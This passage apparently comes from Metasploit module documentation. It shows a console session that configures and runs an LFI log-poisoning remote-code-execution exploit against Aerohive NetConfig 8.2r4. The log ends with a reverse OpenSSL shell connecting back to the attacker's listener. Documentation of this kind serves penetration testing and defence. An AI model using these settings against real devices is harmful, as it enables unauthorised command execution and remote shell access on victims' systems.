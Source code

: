 ### Aerohive NetConfig 8.2r4 - CMD target - AUTO_CLEAN_LOG true
```
Module options (exploit/unix/webapp/aerohive_netconfig_lfi_log_poison_rce):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   AUTO_CLEAN_LOG  true             yes       Automatically clean the /tmp/messages log upon spawning a shell. WARN
                                              ING! This may render the target unexploitable
   Proxies                          no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS          92.168.1.151     yes       The target host(s), see https://github.com/rapid7/metasploit-framewor
                                              k/wiki/Using-Metasploit
   RPORT           443              yes       The target port (TCP)
   SRVHOST         0.0.0.0          yes       The local host or network interface to listen on. This must be an add
                                              ress on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT         8080             yes       The local port to listen on.
   SSL             true             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                          no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI       /                yes       The base path to Aerohive NetConfig
   URIPATH                          no        The URI to use for this exploit (default is random)
   VHOST                            no        HTTP server virtual host


Payload options (cmd/unix/reverse_openssl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.229    yes       The listen address (an interface may be specified)
   LPORT  4949             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   CMD


msf6 exploit(unix/webapp/aerohive_netconfig_lfi_log_poison_rce) > exploit

[*] Started reverse double SSL handler on 192.168.1.229:4949
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. The target is Aerohive NetConfig version 8.2r4
[*] Attempting to poison the log at /tmp/messages...
[*] Server responded as expected. Continuing...
[*] Attempting to execute the payload
[!] In case of successful exploitation, the Aerohive NetConfig web application will hang for as long as the spawned shell remains open.
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo VHvH3bgm8VU8O8MN;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "VHvH3bgm8VU8O8MN\n"
[*] Matching...
```